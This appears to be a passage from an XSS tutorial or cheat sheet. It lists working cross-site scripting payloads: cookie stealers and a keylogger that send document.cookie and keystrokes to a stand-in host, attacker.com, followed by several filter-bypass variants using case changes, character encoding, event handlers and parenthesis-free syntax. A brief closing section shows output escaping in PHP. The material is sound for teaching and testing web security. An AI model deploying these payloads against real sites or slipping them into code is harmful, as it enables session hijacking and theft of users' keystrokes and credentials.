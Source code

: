 **Cookie Stealing:**
```html
<script>
fetch('http://attacker.com/steal?cookie=' + document.cookie);
</script>

<img src=x onerror="this.src='http://attacker.com/steal?c='+document.cookie">
```

**Keylogger:**
```html
<script>
document.onkeypress = function(e) {
    fetch('http://attacker.com/log?key=' + e.key);
}
</script>
```

**Bypass Filters:**
```html
<!-- Uppercase -->
<SCRIPT>alert('XSS')</SCRIPT>

<!-- Mixed case -->
<ScRiPt>alert('XSS')</sCrIpT>

<!-- Encoding -->
<script>alert(String.fromCharCode(88,83,83))</script>

<!-- Without script tags -->
<img src=x onerror="alert('XSS')">
<svg onload="alert('XSS')">

<!-- Without parentheses -->
<script>onerror=alert;throw'XSS'</script>

<!-- Without quotes -->
<script>alert(document.domain)</script>
```

### Prevention

```html
<!-- HTML Escaping -->
<?php
// GOOD - Escape output
echo htmlspecialchars($user_input, ENT_QUOTES, 'UTF-8');
?>

<!-- JavaScript -->
<!-- GOOD - Validate and sanitize -->
<script>
const userInput = <?php echo json_encode($user_input); ?>;
</script>
```

